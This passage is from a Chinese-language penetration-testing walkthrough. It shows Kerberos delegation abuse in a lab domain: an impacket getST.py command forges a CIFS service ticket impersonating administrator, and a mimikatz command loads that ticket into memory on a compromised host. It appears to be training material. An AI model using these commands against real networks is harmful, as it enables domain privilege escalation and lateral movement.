 ### 连接目标获取票据

这里需要使用到impacket工具，并且使用到python3.10及以上版本，可能低版本的存在一些小问题。

[impacket工具](https://github.com/fortra/impacket)

```
proxychains python getST.py -dc-ip 192.168.3.33 xiaodi.local/test1\$:123456 -spn cifs/data.xiaodi.local -impersonate administrator
```

![image-20230807194554762](assets/image-20230807194554762-172995732801411.png)

### 导入票据到内存

这里将刚刚生成的票据导入到内存中，由于票据是本地生成的，那么就需要先将票据上传到所控主机上后在进行导入。

```
mimikatz kerberos::ptc administrator.ccache
```

![image-20230807194836516](assets/image-20230807194836516-172995732801412.png)
